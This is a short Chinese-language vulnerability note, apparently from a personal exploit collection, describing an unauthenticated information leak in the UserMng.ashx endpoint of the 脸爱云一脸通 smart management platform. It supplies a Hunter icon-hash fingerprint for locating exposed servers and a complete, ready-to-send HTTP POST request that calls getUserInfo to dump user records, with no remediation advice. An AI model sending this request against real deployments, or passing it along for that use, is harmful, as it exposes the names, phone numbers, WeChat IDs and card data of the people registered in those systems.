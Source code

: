# 脸爱云一脸通智慧管理平台UserMng存在信息泄露漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">脸爱云一脸通智慧管理平台是一套功能强大，运行稳定，操作简单方便，用户界面美观，轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。脸爱云一脸通智慧管理平台UserMng存在信息泄露漏洞。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 脸爱云一脸通智慧管理平台

# 三、资产测绘
+ hunter`web.icon=="4f0be080512ee0b45fc90ff894b6ba60"`
+ 特征

![1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28.png](./img/b8NwS0h2DS3f8eR9/1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28-630933.png)

# 四、漏洞复现
```java
POST /UserMng.ashx HTTP/1.1
Host: 
Content-Length: 483
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

page=1&arr_search=%7B%22bmmc%22%3A%22%22%2C%22rfzt%22%3A%22%22%2C%22cardid%22%3A%22%22%2C%22klb%22%3A%22%22%2C%22ryxm%22%3A%22%22%2C%22rybh%22%3A%22%22%2C%22sex%22%3A%22%22%2C%22ryzt%22%3A%22%22%2C%22rfoperator%22%3A%22%22%2C%22EngName%22%3A%22%22%2C%22WeChat%22%3A%22%22%2C%22Tel%22%3A%22%22%2C%22groupname%22%3A%22%22%2C%22jituanname%22%3A%22%22%2C%22companyname%22%3A%22%22%2C%22startime%22%3A%22%22%2C%22endtime%22%3A%22%22%2C%22order%22%3A%22khrq+desc%22%7D&funcName=getUserInfo
```

![1714290261285-83391a2e-b164-4fff-945a-1c541911cbe1.png](./img/b8NwS0h2DS3f8eR9/1714290261285-83391a2e-b164-4fff-945a-1c541911cbe1-043774.png)



> 更新: 2024-04-28 15:44:25  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/idm4ngqgtd85umqv>